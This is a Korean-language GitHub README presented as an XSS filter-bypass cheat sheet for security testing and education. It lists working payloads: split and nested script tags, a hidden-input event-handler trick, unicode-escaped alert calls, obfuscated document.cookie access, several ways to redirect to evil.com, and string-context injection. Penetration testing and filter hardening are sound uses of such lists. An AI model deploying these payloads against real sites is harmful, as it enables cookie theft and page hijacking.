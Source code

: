 # XSS-Bypass-CheatSheet
정리된 **XSS 필터 우회 페이로드**와 **보안 점검 시 활용 가능한 기법 모음**입니다.  
XSS 취약점 점검을 위한 **필터 우회 구문** 및 **케이스별 정리**를 포함합니다.

---

## 📂 구성 내용

- ✅ 필터 우회용 XSS 페이로드 모음
- ✅ 상황별(WAF, 입력 값 검증 우회 등) 우회 기법 정리
- ✅ 실전 점검에서 활용된 사례 기반 정리
---


## 🛡️ 책임 한계 및 유의사항
> 이 저장소에 포함된 모든 XSS 필터 우회 구문과 기법은 **보안 점검 및 교육 목적**으로만 제공됩니다.  
> 실제 시스템이나 타인의 서비스에 **무단으로 테스트하거나 악용하는 것은 법적인 책임을 초래할 수 있으며**,  
> 이에 따른 모든 책임은 사용자 본인에게 있습니다.  
> 본 저장소의 내용을 사용함으로써 발생하는 **직·간접적인 피해에 대해 작성자는 어떠한 책임도 지지 않습니다.**
---


## 🔍 XSS 개요

XSS는 공격자가 웹 페이지에 악성 스크립트를 삽입하여 사용자의 브라우저에서 실행되도록 유도하는 취약점입니다. 주로 사용자 입력값을 적절히 검증하거나 이스케이프하지 않을 경우 발생합니다.

### 종류
- **Reflected XSS**: URL 등에 포함된 스크립트가 바로 반영되어 실행됨
- **Stored XSS**: 데이터베이스 등에 저장된 스크립트가 나중에 실행됨
- **DOM-based XSS**: 클라이언트 측 자바스크립트 로직에서 발생함

## 💣 CASE별 우회 기법

### 1. 태그 분할 및 중첩 우회 (Broken/Nested Tag Bypass)

필터가 단순히 script 문자열이 삭제되는 경우, scscriptript 또는 scrscriptipt 등의 형태로 필터를 우회할 수 있습니다.
💡 예시
```
<scscriptript></scriscriptpt>
```

---

### 2. hidden 필드 내 태그 탈출이 불가능한 경우(Hidden Input Field Payload)
\<input type="hidden"\> 등의 폼 필드 내 속성에서 이벤트 핸들러를 통한 실행을 유도하는 방식입니다.
2024년 7월에 등장한 새로운 우회 기법으로, oncontentvisibilityautostatechange 이벤트를 이용해 사용자 인터랙션 없이 XSS를 트리거할 수 있습니다. 이 기법은 Chrome Canary 및 최신 버전의 Chrome에서 작동하며, 기존 XSS 필터링을 우회하는 데 활용될 수 있습니다.
💡 예시
```
<input type="hidden" oncontentvisibilityautostatechange="alert(/TEST/)" style="content-visibility:auto">
```

---

### 3. 유니코드 인코딩 우회 (함수 호출 필터 우회)
웹 방화벽(WAF)이나 필터링 로직이 alert(), confirm() 등의 특정 함수 호출 문자열만 필터링할 경우, 유니코드 이스케이프를 사용하여 탐지를 우회할 수 있습니다. 이벤트 핸들러 자체는 허용되지만 내부 함수 호출만 제한하는 상황에서 효과적입니다.

💡 예시
```
<img src=x onerror="\u0061lert(1)">
<img src=x onerror="\u0063onfirm(1)">
```
위 코드는 각각 alert(1), confirm(1)을 유니코드로 표현하여 필터를 우회합니다.
\u0061 → a, \u0063 → c 이므로 최종적으로는 alert() 및 confirm()과 동일하게 동작합니다.

---

### 4. document.cookie 접근 우회 (속성 인덱싱 우회)
일부 필터는 document.cookie라는 문자열을 정적으로 탐지하여 차단합니다.
이럴 경우, 속성 접근을 문자열 인덱싱 방식으로 우회할 수 있습니다.

💡 예시
```
<script>alert(document['cookie'])</script>
<script>alert(document['c'+'ookie'])</script>
<script>alert(document[String.fromCharCode(99,111,111,107,105,101)])</script>
```
위 코드는 모두 document.cookie와 동일하게 작동하지만, 문자열 결합 또는 유니코드로 표현되어 필터링을 회피합니다.

 ---
 
### 5. location.href 관련 우회 (리디렉션 함수 다양화)
필터가 location.href만 막을 경우, 동일한 효과를 가진 다른 속성 또는 메서드를 활용해 우회가 가능합니다.

### 💡 예시
```
location.href = 'https://evil.com'
location['href'] = 'https://evil.com'
location.assign('https://evil.com')
location['assign']('https://evil.com')
location.replace('https://evil.com')
window.location='https://evil.com'
top.location='https://evil.com'
window.top.location='https://evil.com'
```
### 📝 설명  
location.assign() : 새 페이지로 이동 (기록 남음)  
location.replace() : 새 페이지로 이동 (기록 남지 않음, back 불가)  
location['assign']() : 필터 우회용 문자열 분리  
window.location : 전역 객체 접근으로 우회 가능

---

### 6. <script> 태그 내 문자열 우회 (String Context Injection)
웹 애플리케이션이 <script> 태그 내에서 사용자 입력을 문자열로 삽입할 경우, 이를 활용한 다양한 우회 기법이 존재합니다.

### 💡 예시 (정상 출력 예상)
```
<script>
  var msg = "Hello USER_INPUT!";
</script>
```

### 💡 예시(공격자가 USER_INPUT에 아래와 같은 값을 입력할 경우)
### ✅ 문자열 닫기 + 코드 삽입 + 재닫기
```
";alert(1);//
```
### 최종 결과:
```
<script>
  var msg = "";alert(1);//";
</script>
```
  
### ✅ 다양한 연산자/패턴을 활용한 실행
### 패턴 설명
"aaaa"*alert()*"aaaa"	곱셈 연산자 활용 – 실행 후 NaN 반환되지만 alert()은 실행됨  
"aaaa"/alert()/"aaaa"	나눗셈 연산자 활용  
"aaaa"-alert()-"aaaa"	뺄셈 연산자 활용  
"aaaa"^alert()^"aaaa"	XOR 연산자 활용  
"aaaa"+alert()+"aaaa"	문자열 + alert 함수 결합 (NaN 포함 가능)  

### 💡 예시:
```
<script>
  var a = "aaaa"*alert(1)*"aaaa";
  var a = "aaaa"/alert(1)/"aaaa";
  var a = "aaaa"-alert(1)-"aaaa";
  var a = "aaaa"^alert(1)^"aaaa";
  var a = "aaaa"+alert(1)+"aaaa";
</script>
```

### ✅ HTML Escape 우회 목적의 <script> 중첩 삽입
### 💡 예시
```
<script>
  var payload = "aaa<script>alert(1)</script>aaa";
</script>
```
💡 위 방식은 서버 측에서 "..aaa<script>alert(1)</script>aaa.." 문자열에 사용자 입력을 넣는 경우에만 작동하며, 필터링이 허술할 때 위험합니다.
